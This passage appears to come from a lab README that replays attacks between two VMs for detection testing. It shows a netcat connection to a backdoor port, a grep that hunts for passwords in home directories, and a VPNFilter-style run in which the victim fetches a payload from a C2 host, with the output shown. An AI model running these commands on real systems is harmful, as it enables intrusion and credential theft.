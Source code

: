 ### Post exploitation behaviors

* Run the following command from `vm1` to connect to `vm0`.

  ```bash
  nc vm0 44444
  ```

* Invocation of malicious commands:
	* File scanning: search the "password" string in all files in /ubuntu/home

	 	```bash
	 	cd ~
	  	grep -R passwd * > /tmp/password_in_files.txt
	  	```
	  
	  This will incur large amount of file read activities, unseen from previous executions.

* To re-run the attack, do some clean-up on *vm0*

	```bash
	sudo rm /tmp/bdoor
	sudo rm /tmp/password_in_files.txt
	```



## 3. VPNFilter attack

### Scenario
An IoT device is infected with VPNFilter.


### Run the attack

From *vm1* (which is C2 host from Internet), run the following

```bash
ubuntu@attack-vm1:~/attack_vpnfilter$ ./run_attack_server.sh 172.31.77.48
    1 image files updated
```

From *vm0* (which is victim host), run

```bash
ubuntu@attack-vm0:~/attack_vpnfilter$ ./run_attack_iot.sh 172.31.77.48
Start download at http://172.31.77.48/update.php
ubuntu@attack-vm0:~/attack_vpnfilter$ Finish download at http://172.31.77.48/update.php
read tags
172.31.77.48
Start download at http://172.31.77.48/update/test
Finish download at http://172.31.77.48/update/test
```


### Detailed attack stages
